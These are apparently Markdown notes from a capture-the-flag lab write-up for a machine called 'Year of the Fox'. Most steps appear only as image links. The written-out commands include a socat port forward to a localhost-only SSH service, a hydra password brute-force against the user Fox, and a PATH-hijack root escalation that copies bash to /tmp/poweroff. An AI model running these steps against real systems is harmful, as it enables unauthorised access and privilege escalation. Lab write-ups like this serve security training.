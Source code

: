 # Year of the Fox

- RCE Identification and exploitation

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled.png](Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled.png)

- Exploitaion

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled%201.png](Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled%201.png)

Port Forwarding 

- POC

    >> `tcp 0 0 127.0.0.1:22 0.0.0.0:* LISTEN -` 

    >> `netstat -tulw` shows `localhost:ssh`

    >> check `/etc/ssh/sshd_config` → shows `Listen Adress: 127.0.0.1, Allow User: Fox`

- Command to forward port 22 to 8001

    >> `socat tcp-listen:8001,reuseaddr,fork tcp:localhost:22` 

- Command to bruteforce Fox passwd

    >> `hydra -l user -P pss.txt -s 8081 <ip> -t 4 -V`

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/scr-200820-1711-51.png](Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/scr-200820-1711-51.png)

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/scr-200820-1713-47.png](Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/scr-200820-1713-47.png)

- Root

    >> Identification

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled%202.png](Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled%202.png)

    >> Reversing Gets us (Path is not specified)

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled%203.png](Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled%203.png)

    >> Exploitaion

      >> `cp /bin/bash /tmp/poweroff`

      >> `export PATH=/tmp:$PATH`
